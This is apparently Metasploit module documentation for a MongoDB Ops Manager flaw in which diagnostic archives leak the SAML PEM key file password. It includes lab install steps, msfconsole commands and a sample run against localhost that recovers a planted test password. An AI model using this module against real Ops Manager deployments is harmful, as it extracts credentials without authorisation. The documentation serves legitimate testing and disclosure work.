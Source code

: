 ## Vulnerable Application

MongoDB Ops Manager Diagnostics Archive does not redact SAML SSL Pem Key File Password
field (`mms.saml.ssl.PEMKeyFilePassword`) within app settings. Archives do not include
the PEM files themselves. This module extracts that unredacted password and stores
the diagnostic archive for additional manual review.

This issue affects MongoDB Ops Manager v5.0 prior to 5.0.21 and
MongoDB Ops Manager v6.0 prior to 6.0.12.

API credentials with the role of `GLOBAL_MONITORING_ADMIN` or `GLOBAL_OWNER` are required.

Successfully tested against MongoDB Ops Manager v6.0.11.

### Install on Ubuntu 22.04

1. Download mongodb server deb from https://www.mongodb.com/download-center/community/releases/archive .
 Look for: `Server Package: mongodb-org-server_6.0.11_amd64.deb`
2. Download the 1.4gig ops manager (mms) deb from https://www.mongodb.com/subscription/downloads/archived
3. `sudo apt-get install snmp`
4. `sudo dpkg -i mongodb-org-server_6.0.11_amd64.deb`
5. `sudo dpkg -i mongodb-mms-*`
6. `sudo nano /opt/mongodb/mms/conf/conf-mms.properties` and add a new field at the bottom of the file: `mms.saml.ssl.PEMKeyFilePassword=FINDME`
7. `sudo systemctl start mongod.service`
8. `sudo systemctl start mongodb-mms.service` (wait a little while for it to initialize and run)
9. Browse to http://<ip>>:8080/account/register and perform the install, the SMTP fields can use values for a server which doesn't exist.
10. Top left corner of the page after install should be "Project 0", click the drop down and create new project. Any name is fine, I called it 'test'
11. Top right of the screen, click Admin, API Keys, Create API Key. Create a new key, for permissions select
`Global Monitoring Admin` or `Global Owner` (or both).

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/gather/mongodb_ops_manager_diagnostic_archive_info`
1. Do: `set API_PUBKEY [API_PUBKEY]`
1. Do: `set API_PRIVKEY [API_PRIVKEY]`
1. Do: `run`
1. You should find similar output to the following: `Found ubuntu22-0-bgrid's unredacted mms.saml.ssl.PEMKeyFilePassword: FINDME`

## Options

### API_PUBKEY

Public Key for the API key that was created with `Global Monitoring Admin` or `Global Owner` permissions.

### API_PRIVKEY

Private Key for the API key that was created with `Global Monitoring Admin` or `Global Owner` permissions.

## Scenarios

### Mongodb OPS Manager 6.0.11 on Ubuntu 22.04

```
msf6 > use auxiliary/gather/mongodb_ops_manager_diagnostic_archive_info
msf6 auxiliary(gather/mongodb_ops_manager_diagnostic_archive_info) > set API_PUBKEY zmdhriti
API_PUBKEY => zmdhriti
msf6 auxiliary(gather/mongodb_ops_manager_diagnostic_archive_info) > set API_PRIVKEY fd2faf05-18bc-4e6b-8ea1-419f3e8f95bc
API_PRIVKEY => fd2faf05-18bc-4e6b-8ea1-419f3e8f95bc
msf6 auxiliary(gather/mongodb_ops_manager_diagnostic_archive_info) > set verbose true
verbose => true
msf6 auxiliary(gather/mongodb_ops_manager_diagnostic_archive_info) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 auxiliary(gather/mongodb_ops_manager_diagnostic_archive_info) > run 
[*] Running module against 127.0.0.1

[*] Checking for orgs
[*] Looking for projects in org 65e86256961a9b1cc98c6c8b
[+]   Found project: Project 0 (65e86256961a9b1cc98c6c8f)
[+] Stored Project Diagnostics files to /root/.msf4/loot/20240307151114_default_127.0.0.1_mongodb.ops_mana_015137.gz
[*]     Opening project_diagnostics.tar.gz
[+] Found ubuntu22-0-bgrid's unredacted mms.saml.ssl.PEMKeyFilePassword: FINDME
[+] Found ubuntu22-0-mms's unredacted mms.saml.ssl.PEMKeyFilePassword: FINDME
[+]   Found project: test (65e86331961a9b1cc98c6db7)
[+] Stored Project Diagnostics files to /root/.msf4/loot/20240307151114_default_127.0.0.1_mongodb.ops_mana_205173.gz
[*]     Opening project_diagnostics.tar.gz
[+] Found ubuntu22-0-bgrid's unredacted mms.saml.ssl.PEMKeyFilePassword: FINDME
[+] Found ubuntu22-0-mms's unredacted mms.saml.ssl.PEMKeyFilePassword: FINDME
[*] Auxiliary module execution completed
msf6 auxiliary(gather/mongodb_ops_manager_diagnostic_archive_info) >
```
